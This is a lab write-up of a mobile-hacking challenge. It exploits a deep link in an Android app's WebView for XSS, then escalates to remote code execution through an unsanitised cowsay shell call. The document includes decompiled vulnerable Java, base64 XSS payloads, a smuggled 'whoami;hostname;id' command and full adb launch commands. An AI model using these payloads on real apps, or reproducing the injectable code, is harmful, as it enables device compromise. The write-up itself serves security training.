




## Outline

This challenge is designed to delve into the complexities of Android's WebView component, exploiting a Cross-Site Scripting (XSS) vulnerability to achieve Remote Code Execution (RCE). It's a great opportunity to engage with Android application security focusing on WebView security issues.

## Objective
Exploit an XSS vulnerability in a WebView component to achieve RCE in an Android application.

## Skills Required
* Understanding of Android app development, especially WebView implementation.
* Knowledge of JavaScript and basic principles of XSS and RCE.

Let's download vpn file and use adb to connect to the lab

```shell
0xbinder@archlinux ~> adb connect 10.11.1.1:5001 
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to 10.11.1.1:5001
```

Let's locate the mobile app we want to exploit with adb 

```shell
0xbinder@archlinux ~> adb shell
shell:/$ pm path com.mobilehackinglab.postboard
package:/data/app/~~dP4fNphGU9naeT4CQCkv4Q==/com.mobilehackinglab.postboard-76lPQA1VUWQkja8ga6UspQ==/base.apk
shell:/$ exit
logout
```

Let's pull the apk locally to analyze it with jadx-gui

```shell
0xbinder@archlinux ~/D/mobile-hacking> adb pull /data/app/~~dP4fNphGU9naeT4CQCkv4Q==/com.mobilehackinglab.postboard-76lPQA1VUWQkja8ga6UspQ==/base.apk
/data/app/~~dP4fNphGU9naeT4CQCkv4Q==/com.mobilehackin...ulled, 0 skipped. 0.4 MB/s (5612111 bytes in 14.686s)
```

We reverse the apk with jadx-gui and go to the `AndroidManifest.xml` file

```xml
<activity android:name="com.mobilehackinglab.postboard.MainActivity" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN"/>
        <category android:name="android.intent.category.LAUNCHER"/>
    </intent-filter>
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="postboard" android:host="postmessage"/>
    </intent-filter>
</activity>
```

The main activity is exported meaning that it can be launched by any activity in the same device. it also has an implicit intent with a data uri as follows.

```shell
postboard://postmessage
```

Decompiling the app with jadx-gui we see a webview setup in the `MainActivity.java`. This shows that static html page is being loaded from `file:///android_asset/index.html`.

```java
private final void setupWebView(WebView webView) {
    webView.getSettings().setJavaScriptEnabled(true);
    webView.setWebChromeClient(new WebAppChromeClient());
    webView.addJavascriptInterface(new WebAppInterface(), "WebAppInterface");
    webView.loadUrl("file:///android_asset/index.html");
}
```

> `setJavaScriptEnabled` is set to `true` and hence it allows javascript execution.
>
> a javascript interface `WebAppInterface()` is also registered

In the `MainActivity.java` we also have `handleIntent()`

```java
private final void handleIntent() {
    Intent intent = getIntent();
    String action = intent.getAction();
    Uri data = intent.getData();
    if (!Intrinsics.areEqual("android.intent.action.VIEW", action) || data == null || !Intrinsics.areEqual(data.getScheme(), "postboard") || !Intrinsics.areEqual(data.getHost(), "postmessage")) {
        return;
    }
    ActivityMainBinding activityMainBinding = null;
    try {
        String path = data.getPath();
        byte[] decode = Base64.decode(path != null ? StringsKt.drop(path, 1) : null, 8);
        Intrinsics.checkNotNullExpressionValue(decode, "decode(...)");
        String message = StringsKt.replace$default(new String(decode, Charsets.UTF_8), "'", "\\'", false, 4, (Object) null);
        ActivityMainBinding activityMainBinding2 = this.binding;
        if (activityMainBinding2 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("binding");
            activityMainBinding2 = null;
        }
        activityMainBinding2.webView.loadUrl("javascript:WebAppInterface.postMarkdownMessage('" + message + "')");
    } catch (Exception e) {
        ActivityMainBinding activityMainBinding3 = this.binding;
        if (activityMainBinding3 == null) {
            Intrinsics.throwUninitializedPropertyAccessException("binding");
        } else {
            activityMainBinding = activityMainBinding3;
        }
        activityMainBinding.webView.loadUrl("javascript:WebAppInterface.postCowsayMessage('" + e.getMessage() + "')");
    }
}
```

The `handleIntent()` gets an intent checks if the action is `android.intent.action.VIEW`, the intent data is not equal to `null`, the data scheme is `postboard://` and the intent data host is `postmessage`. It then takes the path , base64 decodes it and replaces `'` with `\\` to get the message. The message is then loaded in the webview as follows `activityMainBinding2.webView.loadUrl("javascript:WebAppInterface.postMarkdownMessage('" + message + "')");`. Now based on that we can try to display any content in the webviev using `adb`. Let's try and inject some javascript code and see if it works.

Html code

```shell

```

Base64 encoded string

```shell
PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KGRvY3VtZW50LmxvY2F0aW9uLmhyZWYpPg==
```

adb command

```shell
0xbinder@archlinux ~/D/mobile-hacking> adb shell am start -n "com.mobilehackinglab.postboard/.MainActivity" -a "android.intent.action.VIEW" -d "postboard://postmessage/PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KGRvY3VtZW50LmxvY2F0aW9uLmhyZWYpPg=="
Starting: Intent { act=android.intent.action.VIEW dat=postboard://postmessage/... cmp=com.mobilehackinglab.postboard/.MainActivity }
```

Running the command we were able to inject javascript.



Since we can inject and run javascript code we can interact with `WebAppInterface` and invoke any functions in the javascript interface class `@JavascriptInterface` located at `com.mobilehackinglab.postboard.WebAppInterface`. These functions include `getMessages()`, `clearCache()`, `postMarkdownMessage(String markDownMessage)` and `postCowsayMessage(String cowsayMessage)`.

We have an interesting function `postCowsayMessage(String cowsayMessage)` located at `com.mobilehackinglab.postboard.WebAppInterface`

```java
@JavascriptInterface
public final void postCowsayMessage(String cowsayMessage) {
    Intrinsics.checkNotNullParameter(cowsayMessage, "cowsayMessage");
    String asciiArt = CowsayUtil.Companion.runCowsay(cowsayMessage);
    String html = StringsKt.replace$default(StringsKt.replace$default(StringsKt.replace$default(StringsKt.replace$default(StringsKt.replace$default(asciiArt, "&", "&amp;", false, 4, (Object) null), "<", "&lt;", false, 4, (Object) null), ">", "&gt;", false, 4, (Object) null), "\"", "&quot;", false, 4, (Object) null), "'", "&#039;", false, 4, (Object) null);
    this.cache.addMessage("<pre>" + StringsKt.replace$default(html, "\n", "<br>", false, 4, (Object) null) + "</pre>");
}
```

The `public final void postCowsayMessage(String cowsayMessage)` needs a string of type cowsayMessage to generate asciiArt with this `CowsayUtil.Companion.runCowsay(cowsayMessage);`

Let's check `runCowsay()` located at `defpackage.CowsayUtil`

```java
public final String runCowsay(String message) {
    Intrinsics.checkNotNullParameter(message, "message");
    try {
        String[] command = {"/bin/sh", "-c", CowsayUtil.scriptPath + ' ' + message};
        Process process = Runtime.getRuntime().exec(command);
        StringBuilder output = new StringBuilder();
        InputStream inputStream = process.getInputStream();
        Intrinsics.checkNotNullExpressionValue(inputStream, "getInputStream(...)");
        InputStreamReader inputStreamReader = new InputStreamReader(inputStream, Charsets.UTF_8);
        BufferedReader bufferedReader = inputStreamReader instanceof BufferedReader ? (BufferedReader) inputStreamReader : new BufferedReader(inputStreamReader, 8192);
        BufferedReader reader = bufferedReader;
        while (true) {
            String it = reader.readLine();
            if (it == null) {
                Unit unit = Unit.INSTANCE;
                CloseableKt.closeFinally(bufferedReader, null);
                process.waitFor();
                String sb = output.toString();
                Intrinsics.checkNotNullExpressionValue(sb, "toString(...)");
                return sb;
            }
            output.append(it).append("\n");
        }
    } catch (Exception e) {
        e.printStackTrace();
        return "cowsay: " + e.getMessage();
    }
}
```

The `runCowsay()` will execute `/bin/sh -c cowsay.sh message`. The `cowsay.sh` is intialized as a variable in the `CowsayUtil` class. The message is not sanitized and hence we can inject our commands.

```java
private static final String SCRIPT_NAME = "cowsay.sh";
private static String scriptPath;
```

Now let's try to execute some commands and see. we have to call `WebAppInterface.postCowsayMessage()` with the message as the command we need to be injected since we can execute javascript in our app. Let's craft our payload.

Hmtl code

```shell

```

base64 encoded string

```shell
PGltZyBzcmM9eCBvbmVycm9yPSJXZWJBcHBJbnRlcmZhY2UucG9zdENvd3NheU1lc3NhZ2UoJ3dob2FtaTtob3N0bmFtZTtpZCcpIj4=
```

adb command

```shell
0xbinder@archlinux ~/D/mobile-hacking> adb shell am start -n "com.mobilehackinglab.postboard/.MainActivity" -a "android.intent.action.VIEW" -d "postboard://postmessage/PGltZyBzcmM9eCBvbmVycm9yPSJXZWJBcHBJbnRlcmZhY2UucG9zdENvd3NheU1lc3NhZ2UoJ3dob2FtaTtob3N0bmFtZTtpZCcpIj4="
Starting: Intent { act=android.intent.action.VIEW dat=postboard://postmessage/... cmp=com.mobilehackinglab.postboard/.MainActivity }
```



The ascii art is added to the cache, we can't see it in the UI unless we call `getMessages()`. To trigger this we can click Post Message button or run `WebAppInterface.getMessages();` to update UI. Let's click Post Message button and see.



There we go an XSS to RCE Exploitation.

> We can also create a malicious mobile app and send the same intent to the `MainActivity` of the vulnerable app. The malicious app needs to be uploaded in the same device for it to work.

<!--  -->